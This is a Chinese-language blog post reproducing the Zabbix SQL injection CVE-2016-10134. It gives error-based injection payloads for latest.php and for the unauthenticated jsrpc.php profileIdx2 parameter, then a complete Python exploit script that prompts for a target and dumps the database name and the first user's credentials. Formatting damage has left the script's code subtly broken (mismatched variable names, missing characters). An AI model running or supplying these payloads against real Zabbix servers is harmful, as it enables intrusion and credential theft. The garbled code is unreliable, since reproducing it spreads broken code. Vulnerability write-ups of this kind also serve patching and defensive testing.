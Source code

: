 ```yaml
---
permalink: 2019/08/03/zabbix-sql-injection/
tags:
  - SQL注入
  - zabbix
layout: post
date: '2019-08-03 08:00:00'
categories:
  - web安全
  - 漏洞复现
home_cover: ''
title: zabbix SQL注入（CVE-2016-10134）
---
```


## 什么是zabbix


zabbix是一个基于WEB界面的提供分布式系统监视以及网络监视功能的企业级的开源解决方案。


zabbix能监视各种网络参数，保证服务器系统的安全运营；并提供灵活的通知机制以让系统管理员快速定位/解决存在的各种问题。


zabbix由2部分构成，zabbix server与可选组件zabbix agent。


zabbix server可以通过SNMP，zabbix agent，ping，端口监视等方法提供对远程服务器/网络状态的监视，数据收集等功能，它可以运行在Linux，Solaris，HP-UX，AIX，Free BSD，Open BSD，OS X等平台上。


> _2016年8月12日，1n3通过邮件披露了Zabbix软件的jsrpc.php文件在处理profileIdx2参数时存在insert方式的SQL注入漏洞，与官方通告的latest.php文件在处理toggleids参数时存在insert方式的SQL注入漏洞属于同一类型的漏洞，只是攻击的位置不同。_


## 受影响版本


ZABBIX 2.0.5 2.0.13 2.2.x 2.4.2 2.4.5 2.4.7 2.4.8 2.5.0 3.0.0-3.0.3


## 不受影响的版本


_`ZABBIX 1.8.，2.2.14，3.0.4，3.2.0`_


## 漏洞复现


注入在两个页面中都存在，分别进行验证。

1. latest.php页面：

此页面需要使用已注册用户或者guest用户登陆才可以。


![vg8f2L9JGsqyHmn.png](../post_images/5544313dae168a8be656a51417b64567.png)


_使用guest用户登陆，查看cookie中的zbxsessionid_


![g6hn3sbmDvH1FkT.png](../post_images/0b1edf6dc18f8fe671e56daa98fc7eb6.png)


此页面注入的payload为：


> _**`http://ip:port/latest.php?output.php=ajax&sid=&favobj=toggle&toggleopenstate=1&toggleids=updatexml(0,concat(0xa,database()),0)`**_


_需要将zbxsessionid中的后16位拿出来放到sid后面_


![hyX7G4bCHduNIKr.png](../post_images/5eba46552de6edef2afe1c680868d66b.png)


可看到已经注入成功，将数据库名显示了出来。

1. jsrpc.php页面:

此页面无需登陆即可注入


zabbix 3.0.4版本已经修复了latest.php页面的注入，但不清楚是否已修复jsrpc.php页面的注入，遇到3.0.4版本也可尝试进行注入。


此页面注入的poc为：


```php
_http://192.168.223.130:8080/jsrpc.php
?sid=0bcd4ade648214dc
&type=9
&method=screen.get
&timestamp=1471054088083
&mode=2
&screenid=
&groupid=
&hostid=0
&pageFile=history.php
&profileIdx=web.item.graph
&profileIdx2=1'
&updateProfile=true
&screenitemid=
&period=3600
&stime=20170813040734
&resourcetype=17
&itemids[23297]=23297
&action=showlatest
&filter=
&filtertask=
&markcolor=1_

```


注入点在profileIdx2参数


测试如下：


![UZtOIXlsJWDh2ib.png](../post_images/6acf521de4b014f72242b8c0f99785df.png)


同样可构造注入语句显示数据库名：


![yLG9Zc6O3E5UqrR.png](../post_images/91a0b4eb9f310ea0fb89c46cb5027929.png)


## 利用EXP


```python
_# coding= utf-8
import sys,re
import requests

def sqlcheck():
    poc = "/jsrpc.php?sid=0bcd4ade648214dc" \
          "&type=9" \
          "&method=screen.get" \
          "&timestamp=1471054088083&mode=2" \
          "&screenid=" \
          "&groupid=&hostid=0" \
          "&pageFile=history.php" \
          "&profileIdx=web.item.graph" \
          "&profileIdx2=2’3297" \
          "&updateProfile=true" \
          "&screenitemid=&period=3600" \
          "&stime=20170813040734" \
          "&resourcetype=17" \
          "&itemids%5B23297%5D=23297" \
          "&action=showlatest" \
          "&filter=" \
          "&filtertask=" \
          "&markcolor=1"

    request__url = zabbix__url+poc

    try:
        rsp = requests.get(requesturl,timeout=5)
        r = rsp.text
        keyWord = re.findall("INSERT\s__INTO\s__profiles",r)
        if keyWord:
            print("此地址存在注入")
        else:
            print("此地址不存在注入，无法利用")
    except Exception as e:
        print(e)


def getdatabase():
    payload = "(select database())"
    poc = "/jsrpc.php?sid=0bcd4ade648214dc" \
          "&type=9" \
          "&method=screen.get" \
          "&timestamp=1471054088083&mode=2" \
          "&screenid=" \
          "&groupid=&hostid=0" \
          "&pageFile=history.php" \
          "&profileIdx=web.item.graph" \
          "&profileIdx2="+payload+ \
          "&updateProfile=true" \
          "&screenitemid=&period=3600" \
          "&stime=20170813040734" \
          "&resourcetype=17" \
          "&itemids%5B23297%5D=23297" \
          "&action=showlatest" \
          "&filter=" \
          "&filtertask=" \
          "&markcolor=1"
    url = zabbixurl + poc
    try:
        rsp = requests.get(url,timeout=5)
        r = rsp.text
        keyword = re.search('Incorrect.__?(\S+)\s__for',r,re.S)
        print("数据库名称为：" + keyword.group(1))
    except Exception as e:
        print(e)

def getUserPass():
    payload = "(select 1 from(select count()," \
              "concat((select (select (select concat(0x7e,(select concat(alias,0x3a,passwd) " \
              "from  users limit 0,1),0x7e))) from informationschema.tables limit 0,1),floor(rand(0)2))x from " \
              "informationschema.tables group by x)a)"
    poc = "/jsrpc.php?sid=0bcd4ade648214dc" \
          "&type=9" \
          "&method=screen.get" \
          "&timestamp=1471054088083&mode=2" \
          "&screenid=" \
          "&groupid=&hostid=0" \
          "&pageFile=history.php" \
          "&profileIdx=web.item.graph" \
          "&profileIdx2=" + payload + \
          "&updateProfile=true" \
          "&screenitemid=&period=3600" \
          "&stime=20170813040734" \
          "&resourcetype=17" \
          "&itemids%5B23297%5D=23297" \
          "&action=showlatest" \
          "&filter=" \
          "&filtertask=" \
          "&markcolor=1"
    url = zabbixurl+poc
    try:
        rsp = requests.get(url,timeout=5)
        r = rsp.text
        keyword = re.search('Duplicate.__?(\S+)\s_for',r,re.S)
        print("用户名和密码为：" + keyword.group(1))
    except Exception as e:
        print(e)


if **name** == '**main**':
    print('_'_60)
    print('\t CVE-2016-10134')
    print('\t Zabbix SQL injection EXP')
    print('\t by https://darkless.cn')
    print('\t python>=3.5 and usage "python zabbix-sql-inject-exp.py"')
    print('_'_  _60)
    zabbixurl = input("请输入zabbix地址，例如：http://192.168.0.1:8080 >>>>")
    if not zabbixurl:
        sys.exit()
    sqlcheck()
    getdatabase()
    getUserPass()_

```


## 参考文章

- https://www.waitalone.cn/zabbix-sql-1.html
- http://blog.nsfocus.net/sql-zabbix-analysis-protection-scheme-injection-vulnerability/
- https://blog.csdn.net/csacs/article/details/86656618
